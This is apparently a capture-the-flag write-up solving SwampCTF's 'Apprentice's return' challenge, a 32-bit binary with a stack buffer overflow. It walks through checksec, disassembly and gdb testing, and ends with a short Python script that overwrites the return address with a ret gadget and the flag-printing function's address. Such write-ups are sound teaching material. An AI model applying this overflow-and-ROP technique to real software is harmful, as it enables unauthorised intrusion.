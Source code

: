 # Pwning Apprentice's return

## Challenge description:

For one such as yourself, apprentice to the arts of time manipulation, you must pass this first trial with a dreadful creature.

**Connect:**
nc chal1.swampctf.com 1802

-=Created By: TobalJackson=-

[return](files/return)

---

## Solution:

We were given an unstripped 32-bit ELF binary:
```
$ file return 
return: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=5e510acf107cc9f91edd02f76f14598fcb30de6b, not stripped
```

First thing to know when pwning a binary is to check the security measures enabled:

```
$ checksec return 
[*] '/home/vagrant/sharedFolder/ctf/swamp/apprentice_return/return'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So the most important thing to keep in mind is that the NX bit is set which stands for [No-eXecutable](https://en.wikipedia.org/wiki/NX_bit). Let's open the binary in [Binary Ninja](https://binary.ninja/). The main function is quite straightforward, it calls the `doBattle()` function, after that it prints some text:

![main disas](files/main_dis.png?raw=true)

I guess the `doBattle()` is the function we're supposed to pwn. However, it is worth noticing another interesting function in the functions list called `slayTheBeast()`:

![slayTheBeast disas](files/slaythebeast_dis.png?raw=true)

This function basically `cat`s the flag for us. Which means we probably need to somehow jump to this function. Let's examine the `doBattle()` function:

![doBattle disas](files/dobattle_dis.png?raw=true)

The function prints some text, then reads a max of 50 characters. A weird thing to notice is that it performs a check for the value at offset 42 from the read characters and compares it with `0x08048595`. This corresponds to the end of the `doBattle()` function:

```
0x08048595      leave
0x08048596      ret
```

After playing with the binary with gdb, it becomes clear that the `doBattle()` function suffers from a buffer overflow vulnerability. The offset to overwrite `EIP` is 42. There was a problem however when using the vanilla "payload testing" method: `A * 42 + BBBB`.

The check mentioned previously will basically let us fail since `BBBB` translates to `0x42424242` which is bigger than `0x08048595`, so I changed the payload to `A * 42 + \x01 * 4`:

![testing payload](files/testing_payload.png?raw=true)

After stepping a bit, it seems we're on the right path:

![right offset](files/right_offset.png?raw=true)

Now we need to jump to `slayTheBeast()` function, however this function resides at address `0x080485db`. The previously mentioned check will prevent us from jumping to it directly since the address to jump to needs to be smaller than `0x08048595`. Let's search for some [ROP gadgets](https://en.wikipedia.org/wiki/Return-oriented_programming) using [peda](https://github.com/longld/peda):

```
gdb-peda$ ropgadget
ret = 0x804835a
popret = 0x8048371
pop2ret = 0x804868a
pop4ret = 0x8048688
pop3ret = 0x8048689
addesp_12 = 0x804836e
addesp_16 = 0x8048465
```

The `ret` at `0x0804835a` will do the job since it's smaller than `0x08048595` and it will allow us to return/jump to the `slayTheBeast()` function which will follow right after it. Our final payload will look like this: `A * 42 + ret + slayTheBeast`. In practice, this simple Python script will do the job:

```
from struct import pack

payload = 'A' * 42                 # offset
payload += pack('<I', 0x804835a)   # ret gadget to bypass check (addr must be lower than 0x8048595)
payload += pack('<I', 0x080485db)  # slayTheBeast() addr

print payload 
```

It's important when using `cat` to keep `stdin` open with `-`:

![get flag](files/get_flag.png?raw=true)
